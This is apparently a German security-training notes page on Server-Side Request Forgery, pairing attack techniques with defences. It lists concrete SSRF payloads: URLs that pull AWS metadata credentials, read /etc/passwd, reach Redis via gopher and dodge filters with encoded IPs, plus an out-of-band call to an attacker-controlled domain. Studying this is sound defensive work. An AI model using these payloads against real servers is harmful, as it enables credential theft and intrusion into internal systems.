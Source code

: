 ```yaml
---
description: Server wird zur internen Kommunikation missbraucht
---
```


# SSRF - Server Side Request Forgery

<details>

<summary><strong>Tools &#x26; Quellen:</strong></summary>

[burp-suite.md](../../../programme-skripte/burp-suite.md "mention")

FFUF/SSRFmap/SSRFire

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

</details>

**Definition, Techniken, Erkennung und Missbrauchsmöglichkeiten**

**Server-Side Request Forgery (SSRF)** ist eine Sicherheitslücke, bei der ein Angreifer einen Server dazu bringt, interne oder externe HTTP-Anfragen zu generieren. Der Angreifer kontrolliert dabei ganz oder teilweise die Zieladresse (z. B. URL oder IP), wodurch interne Dienste, Metadaten-APIs oder nicht öffentliche Netzwerke abgefragt werden können. SSRF kann sowohl zu Informationslecks als auch zu Remote Code Execution oder weiteren Angriffen führen.

***

### **Ziel und Angriffsmöglichkeiten**

Bei einem SSRF-Angriff wird ein Server – z. B. durch manipulierte Parameter in einer URL – dazu gebracht, selbst HTTP-Anfragen an andere Systeme zu stellen. Dies kann ausgenutzt werden, um:

* interne Systeme zu scannen (`localhost`, `127.0.0.1`, `169.254.169.254`, etc.)
* sensible Metadaten aus Cloud-Umgebungen (z. B. AWS EC2) zu exfiltrieren
* nicht freigegebene APIs aufzurufen oder interne Admin-Panels zu erreichen
* Webhooks oder Callback-Mechanismen umzuleiten oder zu missbrauchen
* interne Dienste in Verbindung mit weiteren Schwachstellen zu kompromittieren (Pivoting)

***

### **Typische Angriffsparameter**

Ein SSRF-Vektor tritt häufig auf, wenn der Server Benutzer-Eingaben zur URL-Verarbeitung nutzt, z. B.:

```http
GET /fetch?url=http://example.com/image.jpg
```

Manipulation durch den Angreifer:

```http
/fetch?url=http://127.0.0.1:8080/admin
/fetch?url=http://169.254.169.254/latest/meta-data/
```

***

### **Interne Zielsysteme (typische Angriffsziele)**

| Zieladresse                     | Bedeutung                                 |
| ------------------------------- | ----------------------------------------- |
| `127.0.0.1` / `localhost`       | Zugriff auf lokale Services               |
| `169.254.169.254`               | Cloud-Metadaten (z. B. AWS, Azure)        |
| `internal-service.local`        | Interne DNS-Einträge                      |
| `http://localhost:3000/metrics` | Prometheus, Admin Panels                  |
| `http://redis:6379/`            | Versuch direkter Interaktion mit Diensten |

***

### **Straightforward Beispiele (Testfälle)**

#### **Zugriff auf interne HTTP-Services**

```http
/fetch?url=http://127.0.0.1:80
/fetch?url=http://localhost:8000/admin
```

#### **Cloud Metadaten abfragen (z. B. AWS)**

```http
/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
/fetch?url=http://169.254.169.254/latest/user-data
```

***

### **Umgehung von Filtermechanismen (WAF Bypasses)**

#### **IP-Kodierungen**

| Eingabeform         | Bedeutung                     |
| ------------------- | ----------------------------- |
| `http://2130706433` | Dezimale Form von `127.0.0.1` |
| `http://0x7f000001` | Hexadezimal                   |
| `http://0177.0.0.1` | Oktalnotation                 |
| `http://127.0.1`    | Verkürzte Notation            |

#### **Protokollvarianten**

```http
/fetch?url=gopher://127.0.0.1:6379/_PING
/fetch?url=file:///etc/passwd
/fetch?url=ftp://127.0.0.1/resource
```

***

### **Exploits mit Out-of-Band (OOB) Verifikation**

#### **Externe Interaktionen zur Bestätigung**

```http
/fetch?url=http://<attacker-controlled-domain>/log
```

Verwendung eines DNS-Logging-Tools (z. B. `Burp Collaborator`, `dnslog.cn`) ermöglicht die Bestätigung der erfolgreichen SSRF-Anfrage durch Abruf der externen Domain.

***

### **Erkennung von SSRF über Zeitverhalten (Time Delay)**

Einige Server lassen sich durch Verzögerung in der Antwortzeit auf anfällige interne Services testen, etwa:

```http
/fetch?url=http://127.0.0.1:1234 (Verzögerung = Dienst antwortet nicht)
```

***

### **Schutzmaßnahmen (für Entwickler & Admins)**

* Whitelisting von Zieladressen (z. B. nur erlaubte Domains zulassen)
* Auflösen und Validieren von IPs vor dem Verbindungsaufbau (DNS-Rebinding verhindern)
* Blockieren von internen IP-Ranges (`127.0.0.0/8`, `169.254.0.0/16`, `192.168.0.0/16`, etc.)
* Protokollbasiertes Filtern (nur `http`, `https` erlauben)
* Ausgehende Verbindungen auf Netzwerkebene einschränken (z. B. durch Firewall/Proxy)

***

### Bekannte Verteidigungen gegen SSRF

#### Deny List

Alle Anfragen werden akzeptiert. Ausnahmen werden innerhalb einer Deny-Liste definiert.

Dabei können sensible Endpoints, IP-Adressen oder Domänen gegen Zugriff von außerhalb geschützt werden. Beispielsweise sollte der localhost-Endpoint geschützt werden. Typische Einträge dafür sind "localhost" bzw. "127.0.0.1"

Der Zugriff auf localhost kann umgangen werden durch alternative Referenzen wie `0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001` oder Subdomains mit DNS-Record welcher auf IP-Adresse 127.0.0.1 auflöst.

Bei Cloud-Umgebungen sollte die IP-Adresse 169.254.169.254 blockiert werden, da sie Metadaten des Cloud-Servers inklusive ggf. sensibler Informationen enthalten können. Ein Angreifer könnte das umgehen, indem eine Subdomain mit eigenem DNS-Record erstellt wird, der auf diese IP-Adresse zeigt.

#### Allow List

Alle Anfragen werden abgelehnt. Ausnahmen werden innerhalb einer Allow-Liste definiert.

In der Liste werden Muster definiert, die bei einer Anfrage verwendet werden müssen. Beispielsweise dass eine Anfrage mit https://interne-website.xyz beginnen muss.

Die Regel kann umgangen werden indem auf Angreiferseite eine Subdomain mit der Domain erstellt wird. Für obere Anfrage könnte das wie folgt aussehen: https://**interne-website.xyz.**&#x68;ackersite.com

#### Open Redirect

Eine offene Weiterleitung ist ein Endpunkt auf dem Server, an dem der Website-Besucher automatisch zu einer anderen Website-Adresse weitergeleitet wird.

Nehmen wir zum Beispiel den Link https://website.thm/link?url=https://tryhackme.com. Dieser Endpunkt wurde eingerichtet, um die Anzahl der Besucher aufzuzeichnen, die zu Werbe-/Marketingzwecken auf diesen Link geklickt haben.

Aber stellen Sie sich vor, es gäbe eine potenzielle SSRF-Schwachstelle mit strengen Regeln, die nur URLs zulassen, die mit https://website.thm/ beginnen.

Ein Angreifer könnte die oben genannte Funktion nutzen, um die interne HTTP-Anfrage an eine Domäne seiner Wahl umzuleiten.
